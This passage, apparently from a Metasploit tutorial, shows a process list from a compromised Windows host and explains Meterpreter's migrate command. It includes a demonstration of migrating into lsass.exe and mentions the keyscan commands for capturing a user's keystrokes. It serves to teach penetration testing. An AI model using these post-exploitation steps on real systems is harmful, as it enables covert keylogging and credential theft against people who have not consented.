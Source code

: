 ```
 428   692   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           
 548   540   csrss.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\csrss.exe
 596   540   wininit.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\wininit.exe
 604   588   csrss.exe             x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\csrss.exe
 644   588   winlogon.exe          x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\winlogon.exe
 692   596   services.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\services.exe
 700   692   sppsvc.exe            x64   0        NT AUTHORITY\NETWORK SERVICE  
 716   596   lsass.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\lsass.exe
 724   596   lsm.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\lsm.exe
 764   692   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           
 828   692   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           
 864   828   WmiPrvSE.exe                                                       
 900   692   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  
 952   692   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    
 1076  692   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    
 1164  548   conhost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\conhost.exe
 1168  692   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  
 1244  548   conhost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\conhost.exe
 1276  1304  cmd.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\cmd.exe
 1304  692   spoolsv.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe
 1340  692   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    
 1388  548   conhost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\conhost.exe[...]
```
**Migrate**

Migrating to another process will help Meterpreter interact with it. For example, if you see a word processor running on the target (e.g. word.exe, notepad.exe, etc.), you can migrate to it and start capturing keystrokes sent by the user to this process. Some Meterpreter versions will offer you the keyscan_start, keyscan_stop, and keyscan_dump command options to make Meterpreter act like a keylogger. Migrating to another process may also help you to have a more stable Meterpreter session.

To migrate to any process, you need to type the migrate command followed by the PID of the desired target process. The example below shows Meterpreter migrating to process ID 716. 

The migrate command
```
meterpreter > migrate 716
[*] Migrating from 1304 to 716...
[*] Migration completed successfully.
meterpreter >
```
